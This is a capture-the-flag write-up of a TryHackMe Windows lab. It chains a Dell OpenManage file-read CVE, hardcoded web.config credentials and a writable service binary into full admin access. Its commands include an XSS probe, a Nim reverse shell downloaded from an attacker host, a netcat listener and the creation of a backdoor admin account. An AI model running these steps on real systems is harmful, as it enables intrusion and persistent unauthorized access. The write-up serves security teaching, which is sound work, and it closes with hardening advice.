# NULLSECURE - FROM NULL TO ROOT

**🎥 Video Walkthrough:** [Hack Smarter Security — Full Walkthrough](https://youtu.be/3M8I9StdL10)
**🔗 Room:** [TryHackMe — Hack Smarter Security](https://tryhackme.com/room/hacksmartersecurity)

---

## 1. Overview

| | |
|---|---|
| **Room** | Hack Smarter Security |
| **Platform** | TryHackMe |
| **Difficulty** | Medium |
| **OS** | Windows |
| **Category** | Standalone APT-themed challenge |

Hack Smarter Security is a Windows box built around an outdated, internet-facing Dell EMC OpenManage Server Administrator instance. The chain moves from an unauthenticated file-read vulnerability in OpenManage, through a hardcoded credential leak in a misconfigured IIS site, to a classic weak-service-permissions privilege escalation that hands over full administrative control.

**Tools used:** RustScan, the RhinoSecurityLabs CVE-2020-5377/CVE-2021-21514 PoC, OpenSSH, `icacls`, `sc.exe`, the Nim compiler, Python's `http.server`, Netcat, PowerShell `Invoke-WebRequest`, `xfreerdp`

---

## 2. Recon

Start with a full TCP port scan:

```bash
rustscan -a <TARGET-IP> --ulimit 5000 -- -sC -sV
```

While poking at the exposed web application, an XSS payload was dropped into the site's email field as a quick sanity check on input handling:

```html
<!-- in email field -->
<script>alert('hi')</script>
```

Nothing usable came out of that, so attention went back to the port scan. Port **1311** stood out, serving TLS/HTTPS:

> search in port 1311 TLS --> https

The service's "About" page disclosed the product — Dell EMC OpenManage:



The exact version was confirmed as **9.4.0.2**:



---

## 3. Vulnerability Identification

Dell EMC OpenManage Server Administrator 9.4.0.2 is affected by **CVE-2020-5377 / CVE-2021-21514**, an authentication-bypass bug that lets an unauthenticated attacker read arbitrary files off the underlying Windows host.

Public PoC (RhinoSecurityLabs):
https://github.com/RhinoSecurityLabs/CVEs/blob/master/CVE-2020-5377_CVE-2021-21514/CVE-2020-5377.py

---

## 4. Exploitation

Run the PoC against the OpenManage service:

```bash
python3 CVE-2020-5377.py <ATTACKER-IP> <TARGET-IP>:1311
```

Used the resulting arbitrary file read to pull the IIS configuration file and locate the physical path of the hosted site:

```
C:\Windows\System32\inetsrv\Config\applicationHost.config
```



That pointed to the site root at `C:\inetpub\wwwroot\hacksmartersec\`. Pulling `web.config` from that path through the same file-read primitive surfaced hardcoded application credentials:

```xml
C:\inetpub\wwwroot\hacksmartersec\web.config

<configuration>
  <appSettings>
    <add key="Username" value="tyler" />
    <add key="Password" value="IAmA1337h4x0randIkn0wit!" />
  </appSettings>
  <location path="web.config">
    <system.webServer>
      <security>
        <authorization>
          <deny users="*" />
        </authorization>
      </security>
    </system.webServer>
  </location>
</configuration>
```



Note the `<deny users="*" />` rule — it blocks the file from being browsed over HTTP, but does nothing against a file-read bug that pulls straight off disk.

---

## 5. Post-Exploitation

The leaked credentials work over SSH, giving an interactive shell as `tyler`:

```bash
ssh tyler@<TARGET-IP>
# password: IAmA1337h4x0randIkn0wit!
```

User flag captured:

```
tyler@HACKSMARTERSEC C:\Users\tyler\Desktop>type user.txt
THM{4ll15n0tw3llw1thd3ll}
```



---

## 6. Privilege Escalation

Looking around the filesystem for escalation paths turned up a suspicious scheduled service binary:

```
C:\Program Files (x86)\Spoofer\spoofer-scheduler.exe
```

Checking permissions on it with `icacls` showed `tyler` has write access to the executable itself:

```powershell
cd "C:\Program Files (x86)\Spoofer"
icacls spoofer-scheduler.exe
```



Confirmed it's a real Windows service via the SCM, then stopped it to allow an overwrite:

```powershell
sc.exe qc spoofer-scheduler
sc.exe stop spoofer-scheduler
```



With write access to the binary and control over the service, the plan is: drop a reverse-shell payload in place of the legitimate executable, then start the service so it runs as whatever privileged account the SCM launches it under.

Payload source — Nim reverse shell:
https://github.com/Sn1r/Nim-Reverse-Shell/blob/main/rev_shell.nim

```bash
nvim rev_shell.nim   # change the IP and port
```



Compiled as a GUI binary (no console flash) and named to match the legitimate service executable:

```bash
nim c -d:mingw --app:gui -o:spoofer-scheduler.exe rev_shell.nim
```



Hosted on the attacker machine:

```bash
python3 -m http.server 8000
```



Pulled down on the target, overwriting the original service binary:

```powershell
Invoke-WebRequest -Uri http://<ATTACKER-IP>:8000/spoofer-scheduler.exe -o spoofer-scheduler.exe
```



Set up a listener, then restarted the service:

```bash
nc -lnvp 80
```

```powershell
sc.exe start spoofer-scheduler
```

The service launches the replaced binary with its own elevated privileges, popping a shell back to the listener. From that shell, a new local admin account is created:

```powershell
net user <username> <password> /add
net localgroup administrators <username> /add
```




Full administrative access confirmed over RDP:

```bash
xfreerdp /compression /cert:ignore +auto-reconnect /v:<TARGET-IP> /u:<username> /p:<password> +clipboard
```



Or just as well over SSH:

```bash
ssh <username>@<TARGET-IP>
```



This confirms full administrative control of the host, with access to `root.txt` on the Administrator's desktop.

---

## 7. Conclusion

Three separate weaknesses chained together into full compromise:

1. **Outdated, internet-exposed management software** — OpenManage 9.4.0.2 carried a known, public, unauthenticated arbitrary file-read vulnerability.
2. **Hardcoded credentials in a web-accessible config file** — `web.config` stored a plaintext username/password for a real Windows account, "protected" only by an IIS `deny` rule that a disk-level file read simply ignores.
3. **A privileged Windows service with a world-writable binary** — anyone able to write to `spoofer-scheduler.exe` could hijack whatever account the Service Control Manager runs it as, turning a low-privilege foothold into full Administrator.

Hardening takeaways: keep management interfaces like OpenManage patched and off the public internet, never hardcode credentials in application configs, and lock down file ACLs on service binaries so only the intended service account/admins can write to them.

---

## 8. Attack Chain Summary

```
RustScan enumeration
  └─▶ Dell EMC OpenManage 9.4.0.2 identified on :1311
        └─▶ CVE-2020-5377 / CVE-2021-21514 unauthenticated file read
              └─▶ applicationHost.config → site physical path
                    └─▶ web.config → hardcoded creds (tyler)
                          └─▶ SSH as tyler → user.txt
                                └─▶ icacls: writable spoofer-scheduler.exe
                                      └─▶ Nim reverse shell compiled & swapped in
                                            └─▶ sc.exe start → privileged shell
                                                  └─▶ new local admin created
                                                        └─▶ RDP/SSH as Administrator → root.txt
```

---

⚠️ *This writeup documents a fully authorized penetration test performed against a TryHackMe lab environment for educational purposes only. Do not use these techniques against any system without explicit permission.*

**A1GCH ⚔ NullSecure**
